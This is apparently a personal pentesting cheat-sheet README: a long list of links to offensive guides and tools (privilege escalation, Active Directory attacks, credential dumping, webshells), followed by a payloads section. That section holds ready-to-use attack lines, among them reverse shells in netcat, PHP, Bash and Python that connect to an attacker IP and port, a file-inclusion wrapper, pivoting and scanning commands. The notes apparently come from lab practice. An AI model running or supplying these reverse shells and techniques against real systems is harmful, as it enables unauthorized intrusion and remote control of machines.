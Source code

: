 # Resources
A collection of links and payloads I stored for quick access
# LINKS
## Overviews
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)

## Windows Pentesting
### Microsoft SQL Server 
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
### Windows Privillage Escalation
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
- [**Windows Local Privillage Escalation Checklist**](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
- [**Potatoes**](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato)
- [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
- [**Print Spoofer**](https://github.com/itm4n/PrintSpoofer)
- [**Sweet Potato**](https://github.com/uknowsec/SweetPotato)
- [**Druva insyncCPHwnet64.exe POC**](https://github.com/tenable/poc/blob/master/druva/inSync/druva_win_cphwnet64.py)
- [**Druva explanation**](https://www.tenable.com/security/research/tra-2020-34)
## ACTIVE DIRECTORY
- [**AD Attack CHEATSHEET**](https://medium.com/@dw3113r/active-directory-attack-cheat-sheet-ea9e9744028d)
- [**AD Exploit CHEATSHEET**](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
## Credentials Dumping
- [**SAM DUMPING**](https://www.hackingarticles.in/credential-dumping-sam/)
## Hash Cracking
- [**Rule Based Attack**](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
- [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
- [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
## Log4J
- [**Log4j Exploatation**](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
## MetaSploit Framework 
- [**Meterpreter Shell Basics**](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html#step-1-generate-the-executable-payload)
- [**Pivoting With Metasploit**](https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/)
- [**Relaying With Metasploit**](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)
## Payloads
- [**Apache Tomcat RCE through WAR file**](https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**LOCAL FILE INCLUSION**](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [**Python Library Hijacking**](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7)
## Reverse Engineering
- [**Write-up for ROP exploit**](https://shakuganz.com/2021/06/08/hackthebox-you-know-0xdiablos-write-up/)
- [**Return Oriented Programing**](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

## Linux Privillage Escalation
- [**GTFO bins**](https://gtfobins.github.io/)
- [**LXD Privillage Escalation**](https://www.hackingarticles.in/lxd-privilege-escalation/)
- [**LXD Exploatation**](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/)
- [**Escape from Restrictd Shells**](https://0xffsec.com/handbook/shells/restricted-shells/)
- [**Traitor**](https://github.com/liamg/traitor)
- [**Python Library Hijacking on Linux**](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)
## PIVOTING && TUNNELING
- [**Pivoting with Chisel**](https://ap3x.github.io/posts/pivoting-with-chisel/)
- [**Tunneling with Chisel and SSF 0XDF**](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
- [**NOTES ABOUT TUnneling and Pivoting**](https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html)
- [**SSH Tunneling**](https://0xdf.gitlab.io/2018/06/10/intro-to-ssh-tunneling.html)
- [**Shades of Tunneling Article**](https://karol-mazurek95.medium.com/the-shades-of-tunneling-a8b6ce1d7fed)
- [**Tunneling and Port FOrwarding**](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)
## Shells
- [**Webshells**](https://github.com/BlackArch/webshells)
- [**Reverse Shell Generator**](https://www.revshells.com/)
- [**NC.EXE**](https://github.com/int0x33/nc.exe/blob/master/nc.exe)
## Tools
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Responder**](https://github.com/SpiderLabs/Responder)
- [**Impacket**](https://github.com/SecureAuthCorp/impacket)
- [**SQL Map**](https://github.com/sqlmapproject/sqlmap)
- [**XSS Strike**](https://github.com/s0md3v/XSStrike)
- [**ffuf**](https://github.com/ffuf/ffuf)
- [**WinPeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [**Rogue JNDI**](https://github.com/veracode-research/rogue-jndi)
- [**RsaCtfTool**](https://github.com/RsaCtfTool/RsaCtfTool)
- [**Ghidra**](https://github.com/NationalSecurityAgency/ghidra/releases)
- [**OllyDBG**](https://www.ollydbg.de/)
- [**checksec**](https://github.com/slimm609/checksec.sh)
- [**LaZagne**](https://github.com/AlessandroZ/LaZagne)
- [**File Magic Numbers**](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)
- [**Rule to Rule Them ALL**](https://github.com/NotSoSecure/password_cracking_rules)
# Payloads
## SSHuttle connection
```
sshuttle -vr balthazar@10.10.110.100 172.16.1.0/24 -x 172.16.1.100
```
## PHP Wrapper
```php://filter/convert.base64-encode/resource=```
## Profiling Password Lists
### CEWL
```ULTIMATE WAY OF CREATING A WORDLIST
1.DIRECTORY BRUTEFORCING
feroxbuster -eknr --wordlist $HOME/tools/crimson/words/dir -u https://<target_domain>/ -o ferox.txt
2. PREPARE FIRST PART OF THE cewl.txt
cat ferox.txt | grep 200 | grep -v "png\|\.js" | cut -d "h" -f2-100 | sed "s/^/h/g" >> urls.txt
for url in $(cat urls.txt); do echo $url && cewl -d 5 $url >> temp_cewl.txt;done
cat temp_cewl.txt | sort -u >> cewl.txt && rm temp_cewl.txt
```
## Nmap
### Null Scan 
```nmap  -n -sN 10.10.110.0/24```
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```
#### PHP:
```<?php $sock = fsockopen("ip","port");$proc = proc_open("/bin/sh -i", array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>```
#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
